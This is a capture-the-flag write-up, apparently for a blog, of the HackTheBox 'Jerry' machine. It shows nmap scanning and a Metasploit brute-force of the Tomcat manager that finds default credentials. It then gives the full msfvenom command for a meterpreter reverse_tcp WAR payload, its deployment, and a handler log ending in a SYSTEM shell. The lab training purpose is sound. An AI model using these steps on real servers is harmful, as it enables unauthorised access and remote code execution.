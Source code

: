 ```yaml
---
layout: page
title: HackTheBox Jerry
---
```


Jerry is a challenge involving an apache server running Tomcat (thus the Tom and Jerry reference of the box). Exploiting the box requires basic enumeration scanning, some bruteforcing methods, knowledge of how apache tomcat servers work, and in this particular method that I used to solve: msfvenom and metasploit to create a metrepeter sessions. All of which is documented below.

### Enumeration
To first enumerate the box, I use ```nmap -sC -sV -oA scan 10.10.10.95```. This will scan for services and the output will be stored in ```scan.*``` in different formats for later use. The output is shown below:

![jerry](https://user-images.githubusercontent.com/41026969/54472176-97deaf80-479a-11e9-9cd5-7830d030d95a.PNG)

So from the photo above, it is shown that port 8080 is open for TCP connection and that it is running an Apache Tomcat server (that runs JSP code). So I do some more investigating by connection to the IP and port: ```10.10.10.95:8080```. It shows the page shown below:

![jerry](https://user-images.githubusercontent.com/41026969/54472198-1dfaf600-479b-11e9-8465-11ecbd70df6d.PNG)

So I see a pretty basic Apache Tomcat (looks like) default webpage. We can run a bruteforce scan to see if we can get into the application manager using metasploit. A cool thing about metasploit is that there is a built in search tool to find certain exploits and auxiliary functions. In this situation, I do ```search Tomcat``` to find anything related to Tomcat. This is what it finds:

![jerry](https://user-images.githubusercontent.com/41026969/54472258-e6d91480-479b-11e9-8d5a-ef1451ee0922.PNG)

We see there's an auxiliary function we can use: ```auxiliary/scanner/http/tomcat_mgr_login```, according to the description, it will find scan for possible login combinations that I can use for the Application Manager that was shown before. As seen below, I set ```BLANK_PASSWORDS``` to true (just incase) and set the remote host that I'll be scanning to ```10.10.10.95``` (doing ```show options``` shows the default port set to 8080 so we don't need to change that). This is the metasploit log:

```
msf > use auxiliary/scanner/http/tomcat_mgr_login 
msf auxiliary(scanner/http/tomcat_mgr_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS 10.10.10.95
RHOSTS => 10.10.10.95
msf auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.10.10.95:8080 - LOGIN FAILED: admin: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[-] 10.10.10.95:8080 - LOGIN FAILED: both: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/tomcat_mgr_login) >  
```

From the logs above I saw that I log into the application manager using credentials username ```tomcat``` and password ```s3cret```. This won't get us a shell, but we get a step closer. Exploring where we land using these credentials we get into this page of the application manager:

![jerry](https://user-images.githubusercontent.com/41026969/54472325-13d9f700-479d-11e9-87e4-6e63a5b66b8d.PNG)

This page reveals some more information. This machine is running a version of Windows 2012 64 bit (says under ```OS Architecture```) and that we can upload WAR files that can potential be used...

### Exploitation
Knowing that the server is running Windows and is 64 bit, we can craft a payload using ```msfvenom```. You can do ```msfvenom -h``` to list the commands/tacks used to specifically craft the payload (listed below too):

![jerry](https://user-images.githubusercontent.com/41026969/54472376-f48f9980-479d-11e9-9b65-cb474c576997.PNG)

msfvenom also has a search function that you can use to search through payload options. Knowing this is a windows 64 bit I know I can create a reverse TCP to spawn a meterpreter shell:

```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[my IP] LPORT=9001 -f war -o PleaseWork.war```

NOTE: there IS a difference between the paylods ```windows/x64/meterpreter_reverse_tcp``` and the one I'm using above. The one mentioned just now (not using) is bigger in size and creates a meterpreter session with full capabilities and functions. I simply use the smaller file as I just need a meterpreter shell and it's faster to upload for the server.

Also NOTE: WAR files are essentially zip files that the Tomcat server uses (think of it similar to an .apk file) to run code inside of it. Specifically we are going to be running one of the ```.jsp``` codes so first I unzip by doing ```unzip PleaseWork.war``` then doing an ```ls -la``` check I see there's a ```jkrpgtlkson.jsp``` file that the Tomcat server can run (it's going to be a different name for everyone). This is the file we'll be using to get the reverse TCP connection.

Going back to the website, under ```WAR file to deploy``` we can upload our newly crafted WAR file. When doing so and clicking the deploy button, it is shown in the website! We can then go to ```http://10.10.10.95:8080/PleaseWork/jkrpgtlkson.jsp``` to run the code.

![jerry](https://user-images.githubusercontent.com/41026969/54472458-10476f80-479f-11e9-8195-f1494af601da.PNG)

Since we don't have a listener set up it is showning a 404, we need to set up a metasploit session to start listening for a reverse TCP conneciton. We use mutli/handler and set the payload to the same thing we used in msfconsole: ```windows/x64/meterpreter/reverse_tcp```. Then we set the local host to ourselves and say we are listening on port 9001. Then I run the exploit. Here's the metasploit log of what I did:

```
msf > use exploit/multi/handler    
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST tun0
LHOST => [my IP]
msf exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf exploit(multi/handler) > run -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on [my IP]:9001 
msf exploit(multi/handler) > [*] Sending stage (205891 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened ([my IP]:9001 -> 10.10.10.95:49193) at 2019-03-16 03:59:10 -0400

msf exploit(multi/handler) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JERRY  [my IP]:9001 -> 10.10.10.95:49193 (10.10.10.95)

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : JERRY
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : en_US
Domain          : HTB
Logged On Users : 0
Meterpreter     : x64/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We can then use the command ```shell``` to get a windows shell.

Flag location: ```C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt```

(you'll need to use double quotation marks ;)    )